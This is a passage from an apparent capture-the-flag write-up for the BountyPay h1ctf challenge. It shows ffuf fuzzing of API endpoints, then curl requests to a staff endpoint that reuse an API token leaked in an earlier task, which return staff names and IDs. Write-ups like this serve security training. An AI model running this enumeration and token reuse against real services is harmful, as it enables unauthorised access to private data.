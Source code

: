 {F861636}

Let's write down those informations for later.

## Sensitive Information Disclosure - API 

I've used *ffuf* tool again to enumerate api endpoints on `api.bountypay.h1ctf.com`:

```
[ zoczus@ropchain:~/tools/ffuf ]> ./ffuf -u "https://api.bountypay.h1ctf.com/api/FUZZ" -fc 404 -w /opt/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : https://api.bountypay.h1ctf.com/api/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 404
________________________________________________

staff                   [Status: 401, Size: 28, Words: 4, Lines: 1]
```

Direct call to `/api/staff` endpoint show error about missing Token:

```
[ zoczus@ropchain:~ ]> curl "https://api.bountypay.h1ctf.com/api/staff"
["Missing or invalid Token"]
```

Be using data leaked in Android task, let's try using X-Token header:

```
[ zoczus@ropchain:~ ]> curl https://api.bountypay.h1ctf.com/api/staff -H "X-Token: 8e9998ee3137ca9ade8f372739f062c1"
[{"name":"Sam Jenkins","staff_id":"STF:84DJKEIP38"},{"name":"Brian Oliver","staff_id":"STF:KE624RQ2T9"}]
```

Changing HTTP method to POST:

```
[ zoczus@ropchain:~ ]> curl https://api.bountypay.h1ctf.com/api/staff -H "X-Token: 8e9998ee3137ca9ade8f372739f062c1" -X POST
["Missing Parameter"]
```
